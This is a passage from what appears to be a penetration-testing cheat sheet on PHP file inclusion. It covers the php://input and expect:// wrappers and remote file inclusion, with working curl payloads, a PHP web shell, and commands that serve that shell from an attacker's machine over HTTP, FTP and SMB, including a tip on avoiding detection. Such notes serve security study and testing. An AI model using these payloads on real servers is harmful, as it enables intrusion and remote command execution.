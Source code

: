 		``` bash
		curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://URL/index.php?language=php://input&cmd=id"
		# If the vulnerable function doesn't accept GET parameters, hardcode the command directly in the payload
		curl -s -X POST --data '<?php system("id"); ?>' "http://URL/index.php?language=php://input"
		```
- [Expect](https://www.php.net/manual/en/wrappers.expect.php)
	- Expect wrapper is an external wrapper so it has to be installed and enabled manually.
	- Check PHP configurations like above but `grep expect`, we would get `extension=expect` as result if it's there.
	- Use expect module to gain RCE
		``` bash
		curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
		```
### Remote File Inclusion:
- Any RFI vulnerability is also an LFI vulnerability, but an LFI may not necessarily be an RFI. Check [Read, Write and Execute Functions](#read-write-and-execute-functions)
- How to verify a RFI:
	- If the server is running PHP in the back-end ?
		- Check `allow_url_include` setting on `php.ini`, (not reliable cause the vulnerable function may not allow remote URLS)
		- Try to include a local URL `http://127.0.0.1:80/index.php` to see firewall reaction.
			- Don't include the vulnerable page as this can cause recursive inclusion loop which may lead to DoS on the server.
- **Remote Code Execution with RFI**
	- Create a malicious script:
		``` bash
		echo '<?php system($_GET["cmd"]); ?>' > shell.php
		```
	- Host the malicious script and use common HTTP ports to avoid detection then visit the infected page:
		- Python
			``` bash
			sudo python3 -m http.server <LISTENING_PORT>
			# Visit the URL on the browser:
			curl "http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id"
			```
		- FTP
			``` bash
			sudo python -m pyftpdlib -p 21
			# Visit the URL on the browser (If the server uses anonymous creds):
			curl "http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id"
			# If the server requires creds:
			curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
			```
		- SMB (If the vulnerable web application is hosted on a Windows server)
			``` bash
			impacket-smbserver -smb2support share $(pwd)
			# Visist the URL on the browser:
			curl "http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami"
			```